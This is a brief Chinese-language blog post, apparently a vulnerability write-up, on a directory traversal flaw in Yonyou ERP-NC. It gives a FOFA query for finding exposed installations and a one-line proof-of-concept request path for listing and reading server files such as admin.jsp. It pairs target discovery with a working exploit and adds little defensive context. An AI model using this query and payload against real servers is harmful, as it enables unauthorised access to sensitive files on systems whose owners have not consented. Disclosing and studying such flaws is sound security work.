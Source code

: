 # ⽤友ERP-NC ⽬录遍历漏洞


### 漏洞描述

⽤友ERP-NC 存在⽬录遍历漏洞，攻击者可以通过⽬录遍历获取敏感⽂件信息 



### fofa语法

```bash
app="⽤友-UFIDA-NC"
```

![](http://image.geoer.cn/%E7%94%A8%E5%8F%8Bfofa.jpg)



### 复现

POC:

```bash
 /NCFindWeb?service=IPreAlertConfigService&filename=
```

![](http://image.geoer.cn/%E7%94%A8%E5%8F%8B%E4%BA%BApoc1.jpg)

查看文件（这里以admin.jsp为例）：

![](http://image.geoer.cn/%E7%94%A8%E5%8F%8Bpoc.jpg)


---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/%E5%8F%8Berp-nc-%E5%BD%95%E9%81%8D%E5%8E%86%E6%BC%8F%E6%B4%9E/  

